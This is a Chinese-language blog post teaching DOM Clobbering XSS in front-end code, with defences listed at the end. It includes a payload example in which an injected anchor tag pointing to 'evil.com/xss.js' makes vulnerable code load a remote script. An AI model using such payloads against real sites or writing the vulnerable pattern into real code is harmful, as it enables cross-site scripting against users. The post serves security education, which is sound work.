 ```yaml
---
title: 前端資安宇宙（四）- HTML 也能影響JavaScript?
date: '2025-06-23'
tags: ['資安', 'XSS', '前端']
draft: false
summary: 'HTML只能一個單純的標記語言？，還可以拿來執行JavaScript呢！'
---
```


## 前言

你可能覺得：「XSS 不就是 `<script>alert(1)</script>` 那種老掉牙的東西嗎？」

其實不然 —— 在某些狀況下，攻擊者**甚至不用寫 `<script>`**，只要插入一段普通的 HTML，加上一點 JavaScript 邏輯失誤，就可能觸發 **XSS 攻擊**。

這篇文章帶你了解一些看似無害但其實危險的瀏覽器特性，例如：

- 用 `window.id` 就能抓到 DOM？
- 為什麼 `<a>` 轉成字串會變網址？
- 怎麼用「DOM Clobbering」結合上面這些來做出 XSS？

---

## 用 `window` 就能抓到 DOM？

讓我們看看以下寫法

```jsx
<button id="btn">Click me</button>

<script>
   console.log(window.btn) //<button id="btn">Click me</button>


//window.btn === document.getElementById('btn')  ✅ true
</script>

```

看起來就像是少了 document.getElementById，但卻能正常運作。這是因為：瀏覽器會把具有 id 的 DOM 元素自動掛到 window 上當成變數。
雖然看起來很方便，但這樣的「貼心設計」其實是個雙面刃，因為它讓我們的變數命名與 DOM 結構產生了不明顯的耦合關係，不小心就可能被污染！

## 為什麼 `<a>` 轉成字串會變網址？

我們先來看看其他 DOM 元素轉字串時的行為是什麼：

```html
<div id="box"></div>
<script>
  console.log(String(window.box)) // [object HTMLDivElement]
</script>
```

以上的範例結合剛剛的特殊抓取DOM的方式抓取`<div>`，這是我們預期的結果，DOM 元素轉成字串時，會變成像 [object HTMLDivElement] 這樣的字串。

但接下來，我們來看看一個非常「不一樣」的例子 —— `<a>` 標籤。

```html
<a id="link" href="https://example.com"></a>
<script>
  console.log(String(window.link)) // https://example.com
</script>
```

你沒有看錯，這次輸出的是一段完整的網址，而不是像剛剛一樣的 object HTMLAnchorElement。
這是因為 `<a>` 是個特殊案例：它的 toString() 方法會自動回傳它的 .href 值

## 怎麼用「DOM Clobbering」結合上面這些來做出 XSS？

我們已經知道：

1. 瀏覽器會把 `id="xxx"` 的元素自動掛到 `window.xxx`
2. `<a>` 元素轉成字串時，會變成它的 `.href` 網址

這兩件事單獨來看沒什麼，但**如果 `<a>` 的 `id` 被設計成和你 JS 裡的變數一樣，就會造成變數污染！**

---

來看看以下範例

```html
<a id="src" href="https://evil.com/xss.js"></a>

<script>
  if (window.src) {
    const script = document.createElement('script')

    // 這裡的 src 實際是 <a> 元素，但會被轉成字串
    script.src = src

    document.body.appendChild(script)
  }
</script>
```

發生了什麼？

- `<a id="src">` 讓 `window.src === <a>` 成立
- script.src = src 實際會變成 script.src = src.toString() → 等於 script.src = src.href
- src.href 是攻擊者控制的網址，成功載入惡意 script！

## 如何防範 DOM Clobbering XSS？

DOM Clobbering 的核心問題是：**使用者插入的 HTML 結構，干擾了 JavaScript 的變數或函式行為。**  
以下是幾個實務上能有效防止這類問題的方式：

1. 不要依賴 `window.id` 自動綁定 DOM
2. 請明確使用 DOM API
3. 加上 CSP（Content Security Policy）
4. [DOMPurify]('https://github.com/cure53/DOMPurify')

